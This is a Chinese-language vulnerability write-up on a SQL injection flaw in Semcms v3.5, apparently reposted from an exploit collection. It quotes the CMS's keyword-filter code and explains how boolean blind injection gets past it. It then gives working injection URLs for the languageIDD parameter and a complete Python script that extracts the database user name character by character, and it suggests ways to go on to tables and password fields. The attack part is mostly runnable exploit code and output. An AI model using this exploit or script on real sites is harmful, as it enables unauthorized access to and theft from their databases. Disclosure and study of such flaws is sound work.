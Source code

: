 # Semcms v3.5 sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/Semcms/Semcms v3.5.html](http://book.iwonder.run/0day/Semcms/Semcms v3.5.html)

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.5

## 三、复现过程

### 漏洞分析

在分析过程中看到网上已经有人发现 semcms V2.4 存在过滤不严导致 sql 注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件 index.php 的代码

```
1 <?php
2 include_once  'Include/web_inc.php';
3 include_once  'Templete/default/Include/Function.php';
4 $file_url="";
5 include_once  'Templete/default/Include/default.php';
6 ?> 
```

```
 1 //网站 logo
 2 
 3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
 4 
 5 // 控制文字标签 更改 获取的 语种 id
 6 
 7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
 8 
 9 if(!empty($Language)){
10 
11       //网站 SEO 设定
12 
13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
14       $row=mysqli_fetch_array($query);
15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题 
```

```
 1 // 防 sql 入注
 2 
 3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';} 　　　　//所有 GET 方式提交的变量都进行防注入检查
 4  
 5 foreach ($GetArray as $value){ //get
 6     
 7     verify_str($value);
 8   
 9 }
10 
11 function inject_check_sql($sql_str) {
12   
13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);　　　　//过滤关键字
14 } 
15 
16 function verify_str($str) { 
17  
18    if(inject_check_sql($str)) {
19    
20        exit('Sorry,You do this is wrong! (.-.)');　　　　　　//如果出现关键字则提示
21     } 
22  
23     return $str; 
24 } 
```

```
 1 function test_input($data) { 　　　　　　　　　　　　　　　　　　//防止 XSS
 2       $data = str_replace("<script", "", $data);
 3       $data = str_replace("</script>", "", $data);
 4       $data = str_replace("%", "percent", $data);
 5       $data = trim($data);
 6       $data = stripslashes($data);
 7       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
 8       return $data;
 9 
10    } 
```

　　可以看到第 16 行的函数 verify_str()调用 inject_check_sql()用来过滤危险字符，函数 test_input 用来过滤 xss。其中可以明显地看到第 11 行的函数 inject_check_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0　　　　显示正常 
```

![image](img/c2bd41a69870052ba24fa8861f4a76d7.png)

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0　　　　显示错误 
```

![image](img/cbb60592e5878748f667f792cb014b3e.png)

参考网上已有的 fuzz 盲注脚本改了下，代码如下

```
#用 python3 版本
import requests
url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
print("Testing url: " + url)
#十进制数 33-126 间的 ascii hex 值
payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
            "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
            "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
            "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
            "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
            "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
            "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
            "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
            "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
            "0x7b","0x7c","0x7d"
           ]
user = ""
for b in range(len(payload)):
    for a in payload:
        #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
        sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
        res = requests.get(url + sql_payload_user).text
        res1 = requests.get(url).text
        if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
            user = user + a
            print(" ")
            print("[*]info : 0x" + user.replace("0x","").upper())
            break
        else:
            print('\r',"Match failed,Next.....",end='') 
```

测试结果如下图

![image](img/2b845f0048084be017e0e47da68836bd.png)

解码 ascii hex 值 0x726F6F74406C6F63616C686F7374 为 root@localhost。当然因为过滤了 select，获取表名就有点困难了，t00ls 中看到有人介绍用 selselectect 来绕过的方式跟这个 CMS 的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过 fuzz 猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

## 参考链接

> [https://www.cnblogs.com/st404/p/10087191.html](https://www.cnblogs.com/st404/p/10087191.html)

